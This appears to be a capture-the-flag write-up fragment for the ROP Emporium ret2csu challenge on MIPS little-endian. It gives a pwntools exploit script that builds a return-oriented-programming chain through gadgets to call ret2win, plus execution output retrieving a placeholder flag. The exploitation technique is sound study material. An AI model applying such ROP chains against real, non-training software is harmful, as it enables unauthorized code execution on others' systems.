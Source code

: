 ```python
# Section .dynamic
dynamic_s = elf.get_section_by_name('.dynsym').header['sh_addr']
ret2win = elf.plt["ret2win"]

log.info(f"{ret2win=:x}")
log.info(f"{dynamic_s=:x}")

offset=0x24

PL=b"A"*offset
PL+=p32(gadget2)             # ra    
for _ in range(7):
	PL+=p32(0xdeadbeef)        
PL+=p32(dynamic_s+0x14)    # s0
PL+=p32(1)  			   # s1
PL+=p32(2)  			   # s2 prepare s1+1=s2
PL+=p32(0xdeadbeef)        # s3 => a0 ensuite
PL+=p32(0xcafebabe)        # s4 => a1 ensuite
PL+=p32(0xd00df00d)        # s5 => a3 ensuite
PL+=p32(gadget1)             # ra    

for _ in range(13):
	PL+=p32(0xdeadbeef)        
PL+=p32(ret2win)             # ra    

io.sendlineafter(b"> ", PL)


io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()

```

### Execution

    [*] '/w/ropemporium/mipsel/08_ret2csu/ret2csu_mipsel'
        Arch:     mips-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        RUNPATH:  b'.'
    [+] Starting local process '/w/ropemporium/mipsel/08_ret2csu/ret2csu_mipsel': pid 788
    [*] ret2win=400a5c
    [*] dynamic_s=4003cc
    [+] flag : ROPE{a_placeholder_32byte_flag!}
    [*] Stopped process '/w/ropemporium/mipsel/08_ret2csu/ret2csu_mipsel' (pid 788
